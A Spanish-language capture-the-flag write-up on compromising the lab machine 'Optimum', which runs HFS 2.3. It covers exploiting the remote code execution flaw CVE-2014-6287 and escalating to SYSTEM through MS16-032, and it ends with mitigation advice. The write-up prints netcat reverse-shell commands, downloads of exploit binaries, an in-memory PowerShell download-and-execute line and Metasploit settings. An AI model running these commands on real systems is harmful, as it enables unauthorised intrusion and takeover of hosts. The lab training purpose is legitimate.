





# Optimum

## Resumen

Servidor HttpFileServer (HFS) 2.3 vulnerable a ejecución remota de código (CVE-2014-6287). Da una shell como `kostas`, y un exploit de kernel (MS16-032) eleva a `SYSTEM`.

## 1. Enumeración

### 1.1 Ping

```
ping -c 1 10.129.80.29
```

```
64 bytes from 10.129.80.29: icmp_seq=1 ttl=127 time=54.6 ms
```

TTL cercano a 128 → sistema Windows.

### 1.2 Puertos abiertos

```
nmap -p- --open -T4 --min-rate 5000 10.129.80.29
```

```
80/tcp open  http
```

Un único puerto abierto, servicio web.

### 1.3 Enumeración de tecnologías

```
nmap -p 80 -sVC -T4 --min-rate 5000 -Pn 10.129.80.29
```

```
80/tcp open  http    HttpFileServer httpd 2.3
|_http-title: HFS /
|_http-server-header: HFS 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**HFS (HttpFileServer) 2.3** es un servidor de ficheros ligero de Rejetto con un historial conocido de vulnerabilidades críticas de RCE.

### 1.4 Script vuln de nmap

```
nmap -p 80 --script vuln -Pn --min-rate 5000 -T4 10.129.80.29
```

Solo devuelve falsos positivos (Slowloris, verb tampering genérico). Un `curl -I -v http://10.129.80.29` tampoco aporta nada más allá de la cabecera `Server: HFS 2.3` ya conocida.

### 1.5 Búsqueda de exploits

```
searchsploit HFS 2.3
```

```
HFS (HTTP File Server) 2.3.x - Remote Command Execution (3) | windows/remote/49584.py
```

Esto corresponde a **CVE-2014-6287**: HFS interpreta de forma insegura ciertas cadenas en los parámetros de búsqueda (`%00` / `search=`), lo que permite inyectar y ejecutar comandos del sistema a través del propio servidor web.

---

## 2. Explotación

Copiamos el exploit y ajustamos IP de atacante, IP de la víctima y puerto de escucha. Como el exploit vive en `/usr/share/exploitdb/...` (solo lectura para el usuario normal), hace falta `sudo` para editarlo in situ:

```bash
sudo sed -i 's/lhost = "10.10.10.1"/lhost = "10.10.16.120"/' /usr/share/exploitdb/exploits/windows/remote/49584.py
sudo sed -i 's/lport = 1111/lport = 9001/' /usr/share/exploitdb/exploits/windows/remote/49584.py
sudo sed -i 's/rhost = "10.10.10.8"/rhost = "10.129.80.29"/' /usr/share/exploitdb/exploits/windows/remote/49584.py
```



Con un listener abierto en el mismo puerto configurado en el script:

```bash
nc -lvnp 9001
python3 /usr/share/exploitdb/exploits/windows/remote/49584.py
```

El exploit dispara la ejecución remota en el servidor HFS y recibimos una shell como el usuario `kostas`:



Desde ahí, navegamos a `C:\Users\kostas\Desktop` y leemos la primera flag:

```
USER FLAG -> 241941347303caa38c6c2f102e8078b0
```

---

## 3. Escalada de privilegios

El usuario `kostas` no tiene acceso al escritorio de `Administrator`. Revisamos privilegios y versión del sistema:

```
whoami /priv
systeminfo
```

El sistema es **Windows Server 2012 R2 Standard, Build 9600**. Comprobamos qué parches tiene instalados:

```
systeminfo | findstr /C:"KB"
```

Falta el hotfix **KB3014442**, que corrige una vulnerabilidad de escalada de privilegios local conocida como **MS16-032 / CVE-2016-0099** (fallo en el manejo de Secondary Logon Handle).

### 3.1 Primer intento (fallido)

Probamos descargando un binario compilado y `nc.exe` directamente en la máquina Windows:

```powershell
wget http://10.10.16.120/nc.exe -OutFile nc.exe
wget http://10.10.16.120/41020.exe -OutFile 41020.exe
.\41020.exe "nc.exe -e cmd.exe 10.10.16.120 9002"
```

El archivo `41020.exe` no llegó a servirse correctamente desde nuestro servidor Python (`404 File not found` en el log), así que este camino se descarta.

### 3.2 Segundo intento: Invoke-MS16032.ps1

Buscamos localmente un PoC en PowerShell para la misma vulnerabilidad:

```
find / -name "Invoke-MS16032.ps1" 2>/dev/null
```

```
/usr/share/powershell-empire/empire/server/data/module_source/privesc/Invoke-MS16032.ps1
```



Lo copiamos a nuestro directorio de trabajo, le añadimos al final la invocación concreta (ejecutar `nc.exe` contra nuestra IP) y servimos tanto el script como el binario de `nc.exe` con un servidor HTTP:

```bash
cp /usr/share/windows-resources/binaries/nc.exe .
echo 'Invoke-MS16032 -Command "cmd /c C:\Users\kostas\Desktop\nc.exe -e cmd.exe 10.10.16.120 9001"' >> Invoke-MS16032.ps1
python3 -m http.server 80
```

Desde la shell de `kostas`, descargamos y ejecutamos el script en memoria:

```powershell
IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.120/Invoke-MS16032.ps1')
```



Con un listener abierto en el puerto indicado, el exploit abusa de un *handle* mal gestionado de Secondary Logon para lanzar un proceso con privilegios de `NT AUTHORITY\SYSTEM`, que ejecuta `nc.exe` y nos devuelve una shell de sistema.

Navegamos a `C:\Users\Administrator\Desktop` y leemos la flag final:

```
ROOT FLAG -> 6764c494c49eaefddae6b398024f3344
```



---

## 4. Alternativa con Metasploit

Todo el proceso anterior (sobre todo la escalada) se puede automatizar con dos módulos de `msfconsole`, evitando el trasiego manual de exploits y binarios:

```
use exploit/windows/http/rejetto_hfs_exec
set RHOST 10.129.80.29
set LHOST 10.10.16.120
set RPORT 80
run
```

Esto da una sesión de meterpreter. Tras migrar a un proceso con más estabilidad (`migrate <pid>`) y dejarla en segundo plano (`background`):

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id>
set LHOST 10.10.16.120
run
```

El resultado es el mismo: una sesión final como `NT AUTHORITY\SYSTEM`.

---

## Mitigación

Actualizar HFS: la versión 2.3 tiene un fallo de RCE conocido. Mantener el sistema parcheado para cerrar la escalada de kernel. No exponer servicios de terceros sin mantenimiento directamente a la red.

## Qué he aprendido

**Qué era la máquina:** un servidor de ficheros HFS 2.3 (Rejetto) con una RCE conocida, sobre un Windows Server 2012 R2 sin el parche de una vulnerabilidad de escalada de privilegios local.

**Enumeración:** `nmap` → solo puerto 80 → versión HFS 2.3 identificada → `searchsploit` confirma CVE-2014-6287 (RCE por inyección en parámetros de búsqueda).

**Explotación:** se ajusta el exploit público (`49584.py`) con nuestra IP/puerto y se ejecuta directamente contra el servicio → shell como `kostas`.

**Escalada de privilegios:** `systeminfo` revela la falta del parche KB3014442 → vulnerable a MS16-032 (CVE-2016-0099) → tras un primer intento fallido con un binario precompilado, se usa el PoC en PowerShell `Invoke-MS16032.ps1` (localizado en los módulos de PowerShell Empire), cargado en memoria vía `IEX` → shell como `NT AUTHORITY\SYSTEM`.

**Concepto clave aprendido:** cuando un exploit compilado falla (por problemas de red, antivirus o simple incompatibilidad), merece la pena buscar una implementación alternativa de la misma CVE en otro lenguaje o formato — aquí el salto de un `.exe` que no se llegó a descargar a un script de PowerShell cargado en memoria fue lo que desbloqueó la escalada.

---

**Flags:**
- `kostas/user.txt` → `241941347303caa38c6c2f102e8078b0`
- `root.txt` → `6764c494c49eaefddae6b398024f3344`
